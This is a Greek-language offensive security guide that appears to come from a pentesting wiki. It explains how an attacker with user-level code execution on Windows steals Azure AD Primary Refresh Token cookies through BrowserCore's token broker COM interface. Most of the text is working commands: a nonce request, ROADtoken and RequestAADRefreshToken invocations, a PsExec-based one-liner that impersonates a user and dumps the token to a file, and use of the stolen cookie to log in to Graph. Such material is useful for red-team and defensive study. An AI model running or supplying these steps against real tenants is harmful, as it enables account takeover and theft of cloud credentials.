 ### Κλοπή Token σε Επίπεδο Χρήστη (Μη Διαχειριστής)

Όταν ένας επιτιθέμενος έχει **εκτέλεση κώδικα σε επίπεδο χρήστη**, η προστασία TPM του PRT δεν σταματά τον επιτιθέμενο από το να αποκτήσει tokens. Ο επιτιθέμενος **εκμεταλλεύεται τις ενσωματωμένες APIs του Windows Token Broker**:

#### **BrowserCore (MicrosoftAccountTokenProvider COM)**

Ο BrowserCore εκθέτει μια κλάση COM (`MicrosoftAccountTokenProvider`, CLSID `{a9927f85-a304-4390-8b23-a75f1c668600}`) για να ανακτήσει PRT cookies. Αυτή η API COM καλείται νόμιμα από προγράμματα περιήγησης (επέκταση Chrome/Edge) για Azure AD SSO.

-   **[RequestAADRefreshToken](https://github.com/leechristensen/RequestAADRefreshToken)**
```bash
RequestAADRefreshToken.exe --uri https://login.microsoftonline.com
```
*(Επιστρέφει ένα Azure AD refresh token ή PRT cookie)*

- **[ROADtoken](https://github.com/dirkjanm/ROADtoken)** & **[ROADtools](https://github.com/dirkjanm/ROADtools)**

Το ROADtoken θα εκτελέσει το **`BrowserCore.exe`** από τον σωστό φάκελο και θα το χρησιμοποιήσει για να **αποκτήσει ένα PRT cookie**. Αυτό το cookie μπορεί στη συνέχεια να χρησιμοποιηθεί με το ROADtools για να αυθεντικοποιηθεί και να **αποκτηθεί ένα μόνιμο refresh token**.

Για να δημιουργήσετε ένα έγκυρο PRT cookie, το πρώτο πράγμα που χρειάζεστε είναι ένα nonce.\
Μπορείτε να το αποκτήσετε με:
```bash
$TenantId = "19a03645-a17b-129e-a8eb-109ea7644bed"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
"URI"     = $URL
"Method"  = "POST"
}
$Body = @{
"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
AwABAAAAAAACAOz_BAD0_8vU8dH9Bb0ciqF_haudN2OkDdyluIE2zHStmEQdUVbiSUaQi_EdsWfi1 9-EKrlyme4TaOHIBG24v-FBV96nHNMgAA
```
Ή χρησιμοποιώντας [**roadrecon**](https://github.com/dirkjanm/ROADtools):
```bash
roadrecon auth prt-init
```
Τότε μπορείτε να χρησιμοποιήσετε [**roadtoken**](https://github.com/dirkjanm/ROADtoken) για να αποκτήσετε ένα νέο PRT (τρέξτε το εργαλείο από μια διαδικασία του χρήστη για να επιτεθείτε):
```bash
.\ROADtoken.exe <nonce>
```
Ως μία γραμμή:
```bash
Invoke-Command - Session $ps_sess -ScriptBlock{C:\Users\Public\PsExec64.exe - accepteula -s "cmd.exe" " /c C:\Users\Public\SessionExecCommand.exe UserToImpersonate C:\Users\Public\ROADToken.exe AwABAAAAAAACAOz_BAD0__kdshsy61GF75SGhs_[...] > C:\Users\Public\PRT.txt"}
```
Στη συνέχεια, μπορείτε να χρησιμοποιήσετε το **generated cookie** για να **generate tokens** για να **login** χρησιμοποιώντας Azure AD **Graph** ή Microsoft Graph:
```bash
# Generate
roadrecon auth --prt-cookie <prt_cookie>

# Connect
Connect-AzureAD --AadAccessToken <token> --AccountId <acc_ind>
```